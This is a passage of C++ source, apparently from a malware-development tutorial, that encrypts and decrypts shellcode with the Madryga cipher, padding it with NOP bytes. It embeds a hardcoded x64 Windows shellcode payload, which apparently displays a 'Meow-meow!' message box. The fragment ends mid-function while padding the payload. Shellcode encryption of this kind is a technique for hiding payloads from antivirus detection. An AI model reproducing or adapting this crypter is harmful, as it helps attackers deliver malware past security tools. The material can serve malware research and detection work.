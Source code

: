 ```cpp
  for (i = 0; i < shellcode_len/8; i++) {
    madryga_encrypt(ptr, key);
    ptr += 2;
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % 8;
  if (remaining != 0) {
    // pad with 0x90
    unsigned char pad[8] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, ptr, remaining);
    madryga_encrypt((uint32_t*) pad, key);
    memcpy(ptr, pad, remaining);
  }
}

void madryga_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  uint32_t *ptr = (uint32_t*) shellcode;
  for (i = 0; i < shellcode_len/8; i++) {
    madryga_decrypt(ptr, key);
    ptr += 2;
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % 8;
  if (remaining != 0) {
    // pad with 0x90
    unsigned char pad[8] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, ptr, remaining);
    madryga_decrypt((uint32_t*) pad, key);
    memcpy(ptr, pad, remaining);
  }
}

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (8 - my_payload_len % 8) % 8;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
```